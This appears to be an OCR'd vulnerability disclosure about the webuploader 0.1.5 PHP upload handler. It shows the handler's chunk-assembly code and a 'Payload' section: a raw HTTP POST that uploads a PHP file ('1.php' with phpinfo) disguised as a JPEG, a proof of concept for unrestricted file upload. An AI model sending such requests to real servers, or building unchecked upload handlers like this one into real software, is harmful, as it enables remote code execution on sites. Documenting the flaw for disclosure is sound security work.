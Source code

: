```
}
if ( $done ) {
    if (!$out = @fopen($uploadPath, "wb")) {
        die('{"jsonrpc" : "2.0", "error" : {"code": 102, "message": "Failed to open output stream."}, "id" : "id"}');
    }

    if ( flock($out, LOCK_EX) ) {
        for( $index = 0; $index < $chunks; $index++ ) {
            if (!$in = @fopen("{$filePath}_{$index}.part", "rb")) {
                break;
            }

            while ($buff = fread($in, 4096)) {
                fwrite($out, $buff);
            }

            @fclose($in);
            @unlink("{$filePath}_{$index}.part");
        }

        flock($out, LOCK_UN);
    }
    @fclose($out);
}

// Return Success JSON-RPC response
die('{"jsonrpc" : "2.0", "result" : null, "id" : "id"}');
```  
  
**Payload:**  
```
POST /Public/webuploader/0.1.5/server/fileupload.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAW4kl2MUmkWNAgBW
Cookie: PHPSESSID=bf13e78oe1uqp8nh3crld1gu55; curIndex=3; uloginid=586639
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/Public/webuploader/0.1.5/server/fileupload.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```  